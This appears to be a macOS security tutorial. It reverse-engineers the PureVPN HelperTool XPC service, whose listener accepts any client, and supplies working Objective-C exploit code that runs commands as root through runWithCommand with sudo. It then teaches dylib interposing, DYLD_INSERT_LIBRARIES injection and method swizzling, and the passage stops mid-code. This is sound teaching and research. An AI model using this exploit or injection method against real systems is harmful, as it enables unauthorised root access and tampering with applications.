Before Connecting to the `HelperTool`, There are some authorizations & verifications to be done to make sure of the client who is connecting, We have `EvenBetterAuthorization`, You can read about it from [here](https://theevilbit.github.io/posts/secure_coding_xpc_part1/) to understand why it's not enough for securing for verifying the client.
### Reverse HelperTool
The first thing We have to do, When we get to reverse the `HelperTool`. Is to check the verifications for connecting to the services:
```Obj-c
/* @class HelperTool */
-(char)listener:(void *)arg2 shouldAcceptNewConnection:(void *)arg3 {
    r15 = self;
    rbx = [arg2 retain];
    var_30 = rbx;
    r12 = [arg3 retain];
    rax = [r15 listener];
    rax = [rax retain];
    if (rax == rbx) {
            [rax release];
            if (r12 != 0x0) {
                    rbx = [[NSXPCInterface interfaceWithProtocol:@protocol(HelperToolProtocol)] retain];
                    [r12 setExportedInterface:rbx];
                    [rbx release];
                    [r12 setExportedObject:r15];
                    [r12 resume];
                    [r12 release];
                    [var_30 release];
                    rax = 0x1;
            }
            else {
                    rax = __assert_rtn("-[HelperTool listener:shouldAcceptNewConnection:]", "/Users/salmanahmed/Projects/Xcode-Project/Git-Repo/PureVPNMac-Project/PureVPN-Repo/purevpn-mac-app/HelperTool/HelperTool.m", 0x7c, "newConnection != nil");
            }
    }
    else {
            rax = __assert_rtn("-[HelperTool listener:shouldAcceptNewConnection:]", "/Users/salmanahmed/Projects/Xcode-Project/Git-Repo/PureVPNMac-Project/PureVPN-Repo/purevpn-mac-app/HelperTool/HelperTool.m", 0x7a, "listener == self.listener");
    }
    return rax;
}
```

We can see here that, Anyone can connect to the `XPC` without any verifications. Now, It's time to check the methods offered by `com.purevpn.macapp.HelperTool`. That can be exploited, We will use [class-dump](http://stevenygard.com/blog/2013/11/16/class-dump-3-dot-5-is-now-available/), We got the following results:
```objc
@protocol HelperToolProtocol
- (void)runWithCommand:(NSString *)arg1 withArguments:(NSArray *)arg2 usingSudo:(BOOL)arg3 withReply:(void (^)(BOOL))arg4;
- (void)setSecureDNSWithServiceId:(NSString *)arg1 withDNS:(NSArray *)arg2 WithReply:(void (^)(BOOL))arg3;
- (void)setMTUInterface:(NSString *)arg1 mtuValue:(NSString *)arg2 WithReply:(void (^)(BOOL))arg3;
- (void)disconnectSSTP:(void (^)(BOOL))arg1;
- (void)executeSudo:(NSArray *)arg1 WithReply:(void (^)(_Bool, NSString *, NSString *))arg2;
- (void)connectSSTP:(NSString *)arg1 withAccount:(NSString *)arg2 andPassword:(NSString *)arg3 Executable:(NSString *)arg4 mtuInterfaceValue:(NSString *)arg5 withReply:(void (^)(BOOL))arg6;
- (void)copyIPSECFiles:(NSArray *)arg1;
- (void)copySSTPFiles:(NSArray *)arg1;
- (void)executePreferencesRefInHelperToolWithReply:(void (^)(BOOL))arg1;
- (void)executeTestFunctionInHelperToolWithReply:(void (^)(BOOL))arg1;
- (void)getVersionsWithReply:(void (^)(NSString *))arg1;
- (void)deactivateOnStartupWithReply:(void (^)(BOOL))arg1;
- (void)activateOnStartupWithReply:(void (^)(BOOL))arg1;
- (void)removeAllRulesWithReply:(void (^)(BOOL))arg1;
- (void)setRules:(NSString *)arg1 withReply:(void (^)(BOOL))arg2;
- (void)setIpv6Leak:(BOOL)arg1 networkInterfaces:(NSArray *)arg2 withReply:(void (^)(BOOL))arg3;
- (void)executeVPNServiceConfigServer:(NSString *)arg1 withAccount:(NSString *)arg2 andPassword:(NSString *)arg3 andShareSecret:(NSString *)arg4 andType:(unsigned long long)arg5 HelperToolWithReply:(void (^)(NSString *, unsigned long long, int))arg6;
- (void)createXAuthKeyChainItemAuthorization:(NSData *)arg1 lable:(NSString *)arg2 forService:(NSString *)arg3 withPassword:(NSString *)arg4 withReply:(void (^)(NSError *))arg5;
- (void)createSharedSecretKeyChainItemAuthorization:(NSData *)arg1 lable:(NSString *)arg2 forService:(NSString *)arg3 withPassword:(NSString *)arg4 withReply:(void (^)(NSError *))arg5;
- (void)createPasswordKeyChainItemAuthorization:(NSData *)arg1 lable:(NSString *)arg2 forService:(NSString *)arg3 withAccount:(NSString *)arg4 andPassword:(NSString *)arg5 withReply:(void (^)(NSError *))arg6;
- (void)createServicesAuthorization:(NSData *)arg1 configObj:(NewVPNServiceConfig *)arg2 usingPreferencesRef:(SCPreferencesRef)arg3 withReply:(void (^)(NSError *))arg4;
- (void)testFunctionAppsAuthorization:(NSData *)arg1 configObj:(NewVPNServiceConfig *)arg2 usingPreferencesRef:(SCPreferencesRef)arg3 withReply:(void (^)(NSError *))arg4;
- (void)bindToLowNumberPortAuthorization:(NSData *)arg1 withReply:(void (^)(NSError *, NSFileHandle *, NSFileHandle *))arg2;
- (void)writeLicenseKey:(NSString *)arg1 authorization:(NSData *)arg2 withReply:(void (^)(NSError *))arg3;
- (void)readLicenseKeyAuthorization:(NSData *)arg1 withReply:(void (^)(NSError *, NSString *))arg2;
- (void)getVersionWithReply:(void (^)(NSString *))arg1;
- (void)connectWithEndpointReply:(void (^)(NSXPCListenerEndpoint *))arg1;
@end
```

The tool helper offers a lot of methods, But the most interested one is `runWithCommand`:

```Objc
/* @class HelperTool */
-(void)runWithCommand:(void *)arg2 withArguments:(void *)arg3 usingSudo:(char)arg4 withReply:(void *)arg5 {
    r12 = [arg2 retain];
    r15 = [arg3 retain];
    r13 = [arg5 retain];
    NSLog(@"%s   %@", "-[HelperTool runWithCommand:withArguments:usingSudo:withReply:]", r15);
    rbx = [self runCommand:r12 withArguments:r15 usingSudo:arg4];
    [r15 release];
    [r12 release];
    (*(r13 + 0x10))(arg5, sign_extend_64(rbx));
    [r13 release];
    return;
}
```

The function here, Passes the parameters to `rbx = [self runCommand:r12 withArguments:r15 usingSudo:arg4];`, When we check `runCommand`:
```Objc
/* @class HelperTool */
-(char)runCommand:(void *)arg2 withArguments:(void *)arg3 usingSudo:(char)arg4 {
    r12 = arg3;
    r14 = self;
    r15 = [arg2 retain];
    if (arg4 != 0x0) {
            var_38 = r15;
            r13 = [r12 retain];
            rax = [NSArray arrayWithObjects:&var_38 count:0x1];
            rax = [rax retain];
            rbx = [rax arrayByAddingObjectsFromArray:r13];
            r12 = r15;
            r15 = r14;
            [r13 release];
            rbx = [rbx retain];
            rdi = r15;
            r15 = r12;
            r14 = [rdi runCommand:@"/usr/bin/sudo" withArguments:rbx];
            [rbx release];
            [rax release];
    }
    else {
            rbx = [r12 retain];
            r14 = [r14 runCommand:r15 withArguments:rbx];
            [rbx release];
    }
    var_30 = **___stack_chk_guard;
    [r15 release];
    if (**___stack_chk_guard == var_30) {
            rax = sign_extend_64(r14);
    }
    else {
            rax = __stack_chk_fail();
    }
    return rax;
}
```
It checks if `arg4` is not `0`, If it's true, Then it will execute the command with `sudo` (as root):
```
r14 = [rdi runCommand:@"/usr/bin/sudo" withArguments:rbx];
```
We can abuse it to esclate our priviliges, By executing commands as root.
### Writing The Exploit
The argument for the method offered by the `HelperTool` has the following arguments:
 - `(NSString *)arg1`: Which is a string (command).
 -  `withArguments:(NSArray *)arg2`: The arguments for the command.
 -  `usingSudo:(BOOL)arg3`: Argument to use sudo or no.
 -  `withReply:(void (^)(BOOL))arg4;`: The XPC reply.
#### First define the protocol and services variable
```Objc
#import <Foundation/Foundation.h>

// MachServices to connect to
static NSString* kXPCHelperMachService = @"com.purevpn.macapp.HelperTool";

// Protocol of HelperTool to be used
@protocol HelperToolProtocol
- (void)runWithCommand:(NSString *)arg1 withArguments:(NSArray *)arg2 usingSudo:(BOOL)arg3 withReply:(void (^)(BOOL))arg4;
- (void)setSecureDNSWithServiceId:(NSString *)arg1 withDNS:(NSArray *)arg2 WithReply:(void (^)(BOOL))arg3;
- (void)setMTUInterface:(NSString *)arg1 mtuValue:(NSString *)arg2 WithReply:(void (^)(BOOL))arg3;
- (void)disconnectSSTP:(void (^)(BOOL))arg1;
- (void)executeSudo:(NSArray *)arg1 WithReply:(void (^)(_Bool, NSString *, NSString *))arg2;
- (void)connectSSTP:(NSString *)arg1 withAccount:(NSString *)arg2 andPassword:(NSString *)arg3 Executable:(NSString *)arg4 mtuInterfaceValue:(NSString *)arg5 withReply:(void (^)(BOOL))arg6;
- (void)copyIPSECFiles:(NSArray *)arg1;
- (void)copySSTPFiles:(NSArray *)arg1;
- (void)executePreferencesRefInHelperToolWithReply:(void (^)(BOOL))arg1;
- (void)executeTestFunctionInHelperToolWithReply:(void (^)(BOOL))arg1;
- (void)getVersionsWithReply:(void (^)(NSString *))arg1;
- (void)deactivateOnStartupWithReply:(void (^)(BOOL))arg1;
- (void)activateOnStartupWithReply:(void (^)(BOOL))arg1;
- (void)removeAllRulesWithReply:(void (^)(BOOL))arg1;
- (void)setRules:(NSString *)arg1 withReply:(void (^)(BOOL))arg2;
- (void)setIpv6Leak:(BOOL)arg1 networkInterfaces:(NSArray *)arg2 withReply:(void (^)(BOOL))arg3;
- (void)executeVPNServiceConfigServer:(NSString *)arg1 withAccount:(NSString *)arg2 andPassword:(NSString *)arg3 andShareSecret:(NSString *)arg4 andType:(unsigned long long)arg5 HelperToolWithReply:(void (^)(NSString *, unsigned long long, int))arg6;
- (void)createXAuthKeyChainItemAuthorization:(NSData *)arg1 lable:(NSString *)arg2 forService:(NSString *)arg3 withPassword:(NSString *)arg4 withReply:(void (^)(NSError *))arg5;
- (void)createSharedSecretKeyChainItemAuthorization:(NSData *)arg1 lable:(NSString *)arg2 forService:(NSString *)arg3 withPassword:(NSString *)arg4 withReply:(void (^)(NSError *))arg5;
- (void)createPasswordKeyChainItemAuthorization:(NSData *)arg1 lable:(NSString *)arg2 forService:(NSString *)arg3 withAccount:(NSString *)arg4 andPassword:(NSString *)arg5 withReply:(void (^)(NSError *))arg6;
- (void)createServicesAuthorization:(NSData *)arg1 configObj:(NewVPNServiceConfig *)arg2 usingPreferencesRef:(SCPreferencesRef)arg3 withReply:(void (^)(NSError *))arg4;
- (void)testFunctionAppsAuthorization:(NSData *)arg1 configObj:(NewVPNServiceConfig *)arg2 usingPreferencesRef:(SCPreferencesRef)arg3 withReply:(void (^)(NSError *))arg4;
- (void)bindToLowNumberPortAuthorization:(NSData *)arg1 withReply:(void (^)(NSError *, NSFileHandle *, NSFileHandle *))arg2;
- (void)writeLicenseKey:(NSString *)arg1 authorization:(NSData *)arg2 withReply:(void (^)(NSError *))arg3;
- (void)readLicenseKeyAuthorization:(NSData *)arg1 withReply:(void (^)(NSError *, NSString *))arg2;
- (void)getVersionWithReply:(void (^)(NSString *))arg1;
- (void)connectWithEndpointReply:(void (^)(NSXPCListenerEndpoint *))arg1;
@end
```
#### Second initialize our XPC connection
Now, We will start connecting to the service and exploit the method:
- Initialize XPC connection for our MachServices
```Objc
int main(void) {

		
    NSXPCConnection* connection = [[NSXPCConnection alloc] initWithMachServiceName:kXPCHelperMachService];
```
- Initialize interface with the protocol
```Objc
    NSXPCInterface* interface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperToolProtocol)];
```
- Set the interface and Start the connection 
```Objc
	[connection setRemoteObjectInterface:interface];
	[connection resume];
```

-  Define the connection object
```Objc
    id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError *error) {
        if (error) {
            NSLog(@"[+] Error: %@", error);
        }
    }];
```
- Before calling the `runWithCommand` Method we need to define the arguments
```Objc
	// Define the command
	NSString* cmd = @"touch";
	
	// Define command arguments
	    NSArray* args = [NSArray arrayWithObjects:@"/tmp/zeyadazima.com", @"", nil];
```
- Now, Call the method from the object
```Objc
    [obj runWithCommand:cmd withArguments:args usingSudo:YES withReply:^(BOOL err) {
        NSLog(@"[+] Reply, %d", err);
    }];
    
    return 0;
}
```

- Results
```bash
 ~ % cd /tmp   
/tmp % ls
com.apple.installerUHykChAa	powerlog
com.apple.launchd.l1jND8ppqA	tmp0000468a
/tmp % ./pure 
/tmp % ls -l
total 0
drwx------  3 labatrixmacenv  wheel  96 Jun 10 05:24 com.apple.installerUHykChAa
drwx------  3 labatrixmacenv  wheel  96 Jun 10 03:33 com.apple.launchd.l1jND8ppqA
drwxr-xr-x  2 root            wheel  64 Jun  8 09:10 powerlog
drwx------  3 root            wheel  96 Jun 10 05:25 tmp0000468a
-rw-r--r--  1 root            wheel   0 Jun 10 22:32 zeyadazima.com
```
We can see that the results shows that the file created successfully.


# Function Hooking
## Function Interposing
Function interposing on macOS is a technique that allows you to override or intercept calls to existing functions within dynamic libraries at runtime. This can be useful for various purposes, such as debugging, profiling, or altering the behavior of existing functions without modifying the source code. To create a dylib for function interposing, you need to add an `__interpose` section (or a section flagged with `S_INTERPOSING`) in the DATA segment of the `Mach-O` file. This section will contain pairs of function pointers linking the original and replacement functions. Then, use `DYLD_INSERT_LIBRARIES` to inject the dylib into the target application, as interposing must occur before the main application loads.

### How Function Interposing Works

1. **Dynamic Linker and DYLD**: macOS uses a dynamic linker (`dyld`) that handles the loading of dynamic libraries (`dylibs`) and the resolution of function addresses at runtime.
2. **Interposing Functions**: By using specific linker options and environment variables, you can tell dyld to replace certain function calls with your own implementations.
3. **Interposing Dylib**: You create a custom dynamic library that provides your versions of the functions you want to interpose.
4. **Environment Variables**: You set environment variables (e.g., `DYLD_INSERT_LIBRARIES`) to specify the path to your interposing dylib.

### Steps to Implement Function Interposing

```c
#include <stdio.h>
#include <fcntl.h>
#include <stdarg.h>
#include <dlfcn.h>

int my_open(const char *path, int oflag, ...) {
    printf("Intercepted open call: %s\n", path);

    // Call the original open function
    va_list args;
    va_start(args, oflag);
    int mode = va_arg(args, int);
    int (*original_open)(const char *, int, ...) = dlsym(RTLD_NEXT, "open");
    va_end(args);

    return original_open(path, oflag, mode);
}

DYLD_INTERPOSE(my_open, open);
```
let''s explain our code here in steps:
1. **Define the Interposing Macro**

Define the `DYLD_INTERPOSE` macro in your C file. This macro helps create an `__interpose` section in the Mach-O file.

```c
#define DYLD_INTERPOSE(_replacement, _replacee) \
    __attribute__((used)) static struct { \
        const void* replacement; \
        const void* replacee; \
    } _interpose_##_replacee __attribute__ ((section("__DATA,__interpose"))) = { \
        (const void*) (unsigned long) &_replacement, \
        (const void*) (unsigned long) &_replacee \
    };
```

2. **Implement the Custom `open` Function**

Define your custom version of `open`. This function will replace the original `open` when the dylib is injected.

```c
#include <stdio.h>
#include <fcntl.h>
#include <stdarg.h>
#include <dlfcn.h>

int my_open(const char *path, int oflag, ...) {
    printf("Intercepted open call: %s\n", path);

    // Call the original open function
    va_list args;
    va_start(args, oflag);
    int mode = va_arg(args, int);
    int (*original_open)(const char *, int, ...) = dlsym(RTLD_NEXT, "open");
    va_end(args);

    return original_open(path, oflag, mode);
}
```

3. **Call the Interposing Macro**

Use the `DYLD_INTERPOSE` macro to specify the replacement of `open` with `my_open`.

```c
DYLD_INTERPOSE(my_open, open);
```


5. **Compile the Interposing Dylib**

```sh
gcc -dynamiclib interpose.c -o interpose.dylib
```

6. **Verify the Interpose Section**

Use the `size` command to verify the presence of the `__interpose` section in the compiled dylib.

```sh
size -x -m -l interpose.dylib
```

Expected output should show an `__interpose` section in the `__DATA` segment.

7. **Inject the Dylib and Run the Application**

Use the `DYLD_INSERT_LIBRARIES` environment variable to inject the interposing dylib into your application.

```sh
export DYLD_INSERT_LIBRARIES=./interpose.dylib
export DYLD_FORCE_FLAT_NAMESPACE=1
./your_application
```



1. **Dynamic Linker and DYLD**:
    - The user application (`UserApp`) is loaded by the dynamic linker (`DYLD`).

2. **Interposing Functions**:
    - DYLD loads the interposing dynamic library (`InterposeDylib`) which contains the interposed function implementations.
    - If necessary, `InterposeDylib` will also load the original library (`OriginalLib`).

3. **Environment Variables**:
    - The environment variable (`DYLD_INSERT_LIBRARIES`) instructs DYLD to use the interposing dylib for specific function calls.
    - When `UserApp` calls a function like `open`, DYLD redirects this call to the interposing function in `InterposeDylib`.
    - The interposing function can perform additional actions (e.g., printing a message) before calling the original function from `OriginalLib`.
    - The result of the original function is returned back through the interposing dylib to the user application.

## IOCTL Interposing
Interposing `ioctl` calls on macOS allows you to override or intercept calls to the `ioctl` function within dynamic libraries at runtime. This can be useful for purposes such as kernel driver fuzzing and analysis, debugging, profiling, or altering the behavior of existing functions without modifying the source code. To create a dylib for interposing `ioctl` calls, you need to add an `__interpose` section (or a section flagged with `S_INTERPOSING`) in the DATA segment of the `Mach-O` file. This section will contain pairs of function pointers linking the original and replacement functions. Then, use `DYLD_INSERT_LIBRARIES` to inject the dylib into the target application, as interposing must occur before the main application loads.

### How Interposing `ioctl` Calls Works

1. **Dynamic Linker and DYLD**: macOS uses a dynamic linker (`dyld`) that handles the loading of dynamic libraries (`dylibs`) and the resolution of function addresses at runtime.
2. **Interposing Functions**: By using specific linker options and environment variables, you can tell dyld to replace certain function calls with your own implementations.
3. **Interposing Dylib**: You create a custom dynamic library that provides your versions of the functions you want to interpose.
4. **Environment Variables**: You set environment variables (e.g., `DYLD_INSERT_LIBRARIES`) to specify the path to your interposing dylib.

### Steps to Implement Interposing `ioctl` Calls

```c
#include <sys/ioctl.h>
#include <stdio.h>
#include <stdarg.h>

#define DYLD_INTERPOSE(_replacement, _replacee) \
__attribute__((used)) static struct { \
    const void* replacement; \
    const void* replacee; \
} _interpose_##_replacee __attribute__ ((section("__DATA,__interpose"))) = { \
    (const void*) (unsigned long) &_replacement, \
    (const void*) (unsigned long) &_replacee \
};

int my_ioctl(int d, unsigned long request, void *data) {
    printf("[+] IOCTL Request Information: 0x%x, 0x%lx\n", d, request);
    return (ioctl(d, request, data));
}

DYLD_INTERPOSE(my_ioctl, ioctl);
```

1. **Define the Interposing Macro**

Define the `DYLD_INTERPOSE` macro in your C file. This macro helps create an `__interpose` section in the Mach-O file.

```c
#define DYLD_INTERPOSE(_replacement, _replacee) \
    __attribute__((used)) static struct { \
        const void* replacement; \
        const void* replacee; \
    } _interpose_##_replacee __attribute__ ((section("__DATA,__interpose"))) = { \
        (const void*) (unsigned long) &_replacement, \
        (const void*) (unsigned long) &_replacee \
    };
```

2. **Implement the Custom `ioctl` Function**

Define your custom version of `ioctl`. This function will replace the original `ioctl` when the dylib is injected.

```c
#include <sys/ioctl.h>
#include <stdio.h>
#include <stdarg.h>

int my_ioctl(int d, unsigned long request, void *data) {
    printf("[+] IOCTL Request Information: 0x%x, 0x%lx\n", d, request);
    return (ioctl(d, request, data));
}
```

3. **Call the Interposing Macro**

Use the `DYLD_INTERPOSE` macro to specify the replacement of `ioctl` with `my_ioctl`.

```c
DYLD_INTERPOSE(my_ioctl, ioctl);
```

4. **Compile the Interposing Dylib**

```sh
gcc -dynamiclib interpose.c -o interpose.dylib
```

5. **Verify the Interpose Section**

Use the `size` command to verify the presence of the `__interpose` section in the compiled dylib.

```sh
size -x -m -l interpose.dylib
```

Expected output should show an `__interpose` section in the `__DATA` segment.

6. **Inject the Dylib and Run the Application**

Use the `DYLD_INSERT_LIBRARIES` environment variable to inject the interposing dylib into your application.

```sh
export DYLD_INSERT_LIBRARIES=./interpose.dylib
export DYLD_FORCE_FLAT_NAMESPACE=1
/App
```



### TIPs

1. **Segmentation Fault**

If the application crashes with a segmentation fault, inspect the crash log to identify the cause. You might encounter an infinite loop if the interposed function calls another function that ends up calling back the interposed function.

- **Crash Reports**
User crash reports are typically located in the` ~/Library/Logs/DiagnosticReports/ `directory. Each crash report file is named with the application name and a timestamp.
```
/Users/<your_username>/Library/Logs/DiagnosticReports/
```

- **System Crash Reports**
System crash reports are stored in the /Library/Logs/DiagnosticReports/ directory. These reports are accessible to all users with appropriate permissions.
```
/Library/Logs/DiagnosticReports/
```

- Debugging
Finally we could use `lldb`, To debug it.

2. **Avoiding Infinite Loops**

To avoid infinite loops, ensure that your interposed function does not invoke the original function in a way that causes it to call back into your interposed function. For example, avoid using `printf` inside an interposed function if `printf` itself might invoke the original function.

```c
int my_ioctl(int d, unsigned long request, void *data) {
    if (request != request_id) { // Exclude specific request to avoid loop
        printf("[+] IOCTL Request Information: 0x%x, 0x%lx\n", d, request);
    }
    return (ioctl(d, request, data));
}
```

## Objective-C Method Swizzling
Method swizzling is a technique used to change the implementation of an existing method at runtime. This is particularly useful in scenarios where you want to alter or extend the behavior of a method without modifying its original code. We'll explore two techniques for method swizzling in `Objective-C`: using categories and using `C` functions.

#### Technique 1: Using Categories

In this example, we'll hook the `length` method of the `NSString` class to log a message whenever it is called. This involves creating a new category for `NSString` and performing the swizzling.

**Step 1: Create a Category**

First, we create a new category for `NSString` called `NewNSString` and add our custom `custom_length` method.

**Code:**

```objc
#import <Foundation/Foundation.h>
#import <objc/runtime.h>

@interface NSString (NewNSString)
- (NSUInteger) custom_length;
@end

@implementation NSString (NewNSString)

- (NSUInteger) custom_length {
    NSLog(@"Hooked the length method!");
    return [self custom_length]; // This will call the original length method after swizzling
}
@end
```

- **Category Declaration**: We declare a category `NewNSString` for the `NSString` class, adding a new method `custom_length`.
- **Method Implementation**: We implement `custom_length` to log a message before calling itself. Initially, this would cause an infinite loop, but after swizzling, it will call the original `length` method.

**Step 2: Perform the Swizzling**

Next, we perform the actual swizzling by swapping the implementations of the original `length` method and our `custom_length` method.

**Code:**

```objc
int main(int argc, const char * argv[]) {
    @autoreleasepool {
        Class class = [NSString class];
        SEL originalSelector = @selector(length);
        SEL swizzledSelector = @selector(custom_length);
        
        Method originalMethod = class_getInstanceMethod(class, originalSelector);
        Method swizzledMethod = class_getInstanceMethod(class, swizzledSelector);
        
        method_exchangeImplementations(originalMethod, swizzledMethod);
        
        // Test the swizzling
        NSString *testString = @"Hello, World!";
        NSLog(@"Length: %lu", (unsigned long)[testString length]);
    }
    return 0;
}
```

- **Class and Selectors**: We obtain the `NSString` class and the selectors for the original and custom methods (`length` and `custom_length`).
- **Methods**: We use `class_getInstanceMethod` to retrieve the method implementations for these selectors.
- **Swizzling**: We use `method_exchangeImplementations` to swap the implementations of the two methods.
- **Test**: We create an `NSString` instance and call the `length` method, which now logs a message due to our swizzling.

**Output:**

```
2024-06-25 12:00:00.000000+0000 swizzling[10172:4293511] Hooked the length method!
2024-06-25 12:00:00.000000+0000 swizzling[10172:4293511] Length: 13
```

#### Technique 2: Using C Functions

For the second technique, we create a new C function and use `method_setImplementation` to update the method's implementation pointer.

**Step 1: Define the C Function**

We define our custom `custom_length` function and a placeholder for the original function pointer.

**Code:**

```objc
#import <Foundation/Foundation.h>
#import <objc/runtime.h>

static IMP original_length = NULL;

static NSUInteger custom_length(id self, SEL _cmd) {
    NSLog(@"Hooked the length method with C function!");
    return ((NSUInteger (*)(id, SEL))original_length)(self, _cmd);
}
```

- **Static IMP Pointer**: We declare a static IMP (method pointer) to hold the original `length` method's implementation.
- **Custom Function**: We define `custom_length` to log a message and then call the original `length` method using the `original_length` pointer. The first two parameters of the function are `id self` (the object) and `SEL _cmd` (the selector).

**Step 2: Update the Method Implementation**

Next, we update the method implementation to point to our custom function.

**Code:**

```objc
int main(int argc, const char * argv[]) {
    @autoreleasepool {
        Class class = [NSString class];
        Method originalMethod = class_getInstanceMethod(class, @selector(length));
        
        original_length = method_setImplementation(originalMethod, (IMP)custom_length);
        
        // Test the swizzling
        NSString *testString = @"Hello, World!";
        NSLog(@"Length: %lu", (unsigned long)[testString length]);
    }
    return 0;
}
```

- **Class and Method**: We obtain the `NSString` class and the `length` method.
- **Update Implementation**: We use `method_setImplementation` to replace the original `length` method with our `custom_length` function. The original method's implementation is stored in `original_length`.
- **Test**: We create an `NSString` instance and call the `length` method, which now logs a message due to our custom function.

**Output:**

```
2024-06-25 12:00:00.000000+0000 swizzling[10419:4306252] Hooked the length method with C function!
2024-06-25 12:00:00.000000+0000 swizzling[10419:4306252] Length: 13
```

### How It Works ?

#### Categories and Swizzling

1. **Categories**: Categories in Objective-C allow you to add new methods to existing classes without subclassing. This feature is used to introduce the `custom_length` method to the `NSString` class.
2. **Selectors and Methods**: A selector (`SEL`) is the name of a method, and a method (`Method`) is a reference to the implementation of that method.
3. **Swizzling**: Swizzling involves swapping the implementations of two methods. `method_exchangeImplementations` is used to exchange the implementations of the original method and the custom method. After swizzling, calling the original method will execute the custom implementation and vice versa.

#### C Functions and Swizzling

1. **IMP Pointers**: An `IMP` is a pointer to the start of a method implementation. By storing the original method's `IMP`, you can call the original method from within your custom implementation.
2. **Custom Function**: The custom function mimics the method signature of the original method and can perform additional operations (e.g., logging) before or after calling the original method.
3. **Method Replacement**: `method_setImplementation` replaces the implementation of a method with a new function, allowing you to intercept calls to the method and redirect them to your custom function.

## Guide for Method Swizzling with MD5App

In this example, we will create an Objective-C application that generates a random message, computes its MD5 hash, and then uses method swizzling to intercept and log the original message. We will break down each part of the process to explain how and why it works.

### Step 1: Create the MD5 Application

First, we create a simple Objective-C application that generates a random message, computes its MD5 hash, and prints out the hash.

**MD5App.m:**

```objc
#import <Foundation/Foundation.h>
#import <CommonCrypto/CommonDigest.h>

// Interface for the MD5 generator class
@interface MD5Generator : NSObject
- (NSString *)md5HashOfString:(NSString *)input;
@end

@implementation MD5Generator

// Function to compute MD5 hash
- (NSString *)md5HashOfString:(NSString *)input {
    const char *cStr = [input UTF8String];
    unsigned char digest[CC_MD5_DIGEST_LENGTH];
    CC_MD5(cStr, (CC_LONG)strlen(cStr), digest);

    NSMutableString *output = [NSMutableString stringWithCapacity:CC_MD5_DIGEST_LENGTH * 2];
    for (int i = 0; i < CC_MD5_DIGEST_LENGTH; i++) {
        [output appendFormat:@"%02x", digest[i]];
    }

    return output;
}

@end

// Function to generate a random string of a given length
NSString *generateRandomString(NSUInteger length) {
    NSString *letters = @"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    NSMutableString *randomString = [NSMutableString stringWithCapacity:length];
    for (NSUInteger i = 0; i < length; i++) {
        [randomString appendFormat: @"%C", [letters characterAtIndex: arc4random_uniform((uint32_t)[letters length])]];
    }
    return randomString;
}

// Function to get user input from the command line
NSString *getUserInput() {
    char inputChars[256];
    fgets(inputChars, 256, stdin);
    return [[NSString stringWithUTF8String:inputChars] stringByTrimmingCharactersInSet:[NSCharacterSet newlineCharacterSet]];
}

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        MD5Generator *generator = [[MD5Generator alloc] init];

        // Generate random message
        NSString *message = generateRandomString(20); // Random message of length 20

        // Compute MD5 hash of the message
        NSString *md5Hash = [generator md5HashOfString:message];
        //NSLog(@"Generated Message: %@", message);
        NSLog(@"MD5 Hash: %@", md5Hash);

        // Ask user to enter the string
        NSLog(@"Please enter the original string:");

        NSString *userInput = getUserInput();
        NSString *userInputHash = [generator md5HashOfString:userInput];

        // Compare hashes
        if ([userInputHash isEqualToString:md5Hash]) {
